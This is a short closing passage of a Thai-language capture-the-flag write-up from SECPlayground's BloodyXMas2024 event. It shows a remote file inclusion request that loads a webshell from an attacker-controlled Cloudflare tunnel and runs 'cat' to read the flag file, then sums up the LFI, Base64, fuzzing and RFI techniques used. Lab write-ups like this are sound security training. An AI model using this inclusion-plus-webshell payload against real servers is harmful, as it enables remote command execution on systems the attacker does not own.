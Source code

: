 และทำการอ่านไฟล์ flag

ใช้คำสั่ง:
```
?view.php?secret=santa&file=<url cloudflare tunnel>/shell.php?cmd=cat flag_xxx.txt
```
**ผลลัพธ์:** พบ **Flag** สำหรับโจทย์ข้อนี้!

<img src="./resources/13.png" alt="" style="width:60% !important;">

### ✅ บทสรุปจากโจทย์นี้  
เราจะได้เรียนรู้เกี่ยวกับการใช้ LFI, Decode Base64, และเทคนิคการ **FUZZ** รวมทั้งการสร้าง RFI ผ่าน webshell ซึ่งล้วนเป็นทักษะสำคัญสำหรับการจัดการช่องโหว่ในโลก cybersecurity!  

---
###### Written by Kornpong.m
###### #SECPlayground   #SECPlaygroundBloodyXMas2024 

<a href="./"><<กลับหน้าหลัก</a>